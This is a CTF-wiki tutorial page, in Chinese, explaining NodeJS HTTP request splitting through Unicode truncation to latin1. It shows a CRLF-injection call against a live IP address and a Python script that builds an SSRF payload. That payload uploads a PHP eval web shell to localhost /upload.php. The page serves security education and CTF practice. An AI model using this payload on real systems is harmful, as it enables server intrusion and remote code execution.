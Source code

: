 # NodeJS HTTP 拆分攻击
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/).



![img](nodejs_unicode字符损坏.assets/t01af324f2b225642c5.png)

## HTTP 请求路径中的 Unicode 字符损坏

虽然用户发出的 HTTP 请求通常将请求路径指定为字符串，但Node.js最终必须将请求作为原始字节输出。JavaScript支持unicode字符串，因此将它们转换为字节意味着选择并应用适当的Unicode编码。对于不包含主体的请求，Node.js默认使用“latin1”，这是一种单字节编码字符集，不能表示高编号的Unicode字符，例如🐶这个表情。所以，当我们的请求路径中含有多字节编码的Unicode字符时，会被截断取最低字节，比如 `\u0130` 就会被截断为 `\u30`

![1](nodejs_unicode字符损坏.assets/1.png)

## Unicode 字符损坏造成的 HTTP 拆分攻击

由于 Nodejs 的 HTTP 库包含了阻止 CRLF 的措施，即如果你尝试发出一个 URL 路径中含有回车、换行或空格等控制字符的 HTTP 请求是，它们会被 URL 编码，所以正常的 CRLF 注入在 Nodejs 中并不能利用![2](nodejs_unicode字符损坏.assets/2.png)

通过在请求路径中包含精心选择的Unicode字符，攻击者可以欺骗Node.js并成功实现CRLF注入。![3](nodejs_unicode字符损坏.assets/3.png)

```
http.get('http://47.101.57.72:4000/\u0120HTTP/1.1\u010D\u010ASet-Cookie:\u0120PHPSESSID=whoami\u010D\u010Atest:').output [ 'GET /ĠHTTP/1.1čĊSet-Cookie:ĠPHPSESSID=whoamičĊtest: HTTP/1.1\r\nHost: 47.101.57.72:4000\r\nConnection: close\r\n\r\n' ]
```

![img](nodejs_unicode字符损坏.assets/t0108dbf556f318ef33.png)

这里需要注意的是使用了一个test：来闭合掉多余的HTTP/1.1

## 在 HTTP 状态行注入完整 HTTP 请求

首先，由于 NodeJS 的这个 CRLF 注入点在 HTTP 状态行，所以如果我们要注入完整的 HTTP 请求的话需要先闭合状态行中 `HTTP/1.1` ，即保证注入后有正常的 HTTP 状态行。其次为了不让原来的 `HTTP/1.1` 影响我们新构造的请求，我们还需要再构造一次 `GET /` 闭合原来的 HTTP 请求。

假设目标主机存在SSRF，需要我们在目标主机本地上传文件。我们需要尝试构造如下这个文件上传的完整 POST 请求

```
payload = ''' HTTP/1.1

POST /upload.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 437
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjDb9HMGTixAA7Am6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=nk67astv61hqanskkddslkgst4
Connection: close

------WebKitFormBoundaryjDb9HMGTixAA7Am6
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundaryjDb9HMGTixAA7Am6
Content-Disposition: form-data; name="uploaded"; filename="shell.php"
Content-Type: application/octet-stream

<?php eval($_POST["whoami"]);?>
------WebKitFormBoundaryjDb9HMGTixAA7Am6
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryjDb9HMGTixAA7Am6--

GET / HTTP/1.1
test:'''.replace("\n","\r\n")

payload = payload.replace('\r\n', '\u010d\u010a') \
    .replace('+', '\u012b') \
    .replace(' ', '\u0120') \
    .replace('"', '\u0122') \
    .replace("'", '\u0a27') \
    .replace('[', '\u015b') \
    .replace(']', '\u015d') \
    .replace('`', '\u0127') \
    .replace('"', '\u0122') \
    .replace("'", '\u0a27') \
    .replace('[', '\u015b') \
    .replace(']', '\u015d') \

print(payload)

# 输出: ĠHTTP/1.1čĊčĊPOSTĠ/upload.phpĠHTTP/1.1čĊHost:Ġ127.0.0.1čĊContent-Length:Ġ437čĊContent-Type:Ġmultipart/form-data;Ġboundary=----WebKitFormBoundaryjDb9HMGTixAA7Am6čĊUser-Agent:ĠMozilla/5.0Ġ(WindowsĠNTĠ10.0;ĠWin64;Ġx64)ĠAppleWebKit/537.36Ġ(KHTML,ĠlikeĠGecko)ĠChrome/90.0.4430.72ĠSafari/537.36čĊAccept:Ġtext/html,application/xhtmlīxml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9čĊAccept-Encoding:Ġgzip,ĠdeflatečĊAccept-Language:Ġzh-CN,zh;q=0.9čĊCookie:ĠPHPSESSID=nk67astv61hqanskkddslkgst4čĊConnection:ĠclosečĊčĊ------WebKitFormBoundaryjDb9HMGTixAA7Am6čĊContent-Disposition:Ġform-data;Ġname=ĢMAX_FILE_SIZEĢčĊčĊ100000čĊ------WebKitFormBoundaryjDb9HMGTixAA7Am6čĊContent-Disposition:Ġform-data;Ġname=ĢuploadedĢ;Ġfilename=Ģshell.phpĢčĊContent-Type:Ġapplication/octet-streamčĊčĊ<?phpĠeval($_POSTśĢwhoamiĢŝ);?>čĊ------WebKitFormBoundaryjDb9HMGTixAA7Am6čĊContent-Disposition:Ġform-data;Ġname=ĢUploadĢčĊčĊUploadčĊ------WebKitFormBoundaryjDb9HMGTixAA7Am6--čĊčĊGETĠ/ĠHTTP/1.1čĊtest:
```

## 流程分析

原始请求数据如下：

```http
GET / HTTP/1.1
Host: 47.101.57.72:4000
```

当我们插入CRLF数据后，HTTP请求数据变成了：

```http
GET / HTTP/1.1

POST /upload.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 437
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjDb9HMGTixAA7Am6
......
<?php eval($_POST["whoami"]);?>
------WebKitFormBoundaryjDb9HMGTixAA7Am6
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryjDb9HMGTixAA7Am6--

 HTTP/1.1
Host: 47.101.57.72:4000
```

上次请求包的Host字段和状态行中的 `HTTP/1.1` 就单独出来了，所以我们再构造一个请求把他闭合：

```http
GET / HTTP/1.1

POST /upload.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 437
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjDb9HMGTixAA7Am6
......
<?php eval($_POST["whoami"]);?>
------WebKitFormBoundaryjDb9HMGTixAA7Am6
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryjDb9HMGTixAA7Am6--

GET / HTTP/1.1
test: HTTP/1.1
Host: 47.101.57.72:4000
```

学习例题：https://www.anquanke.com/post/id/241429#h2-6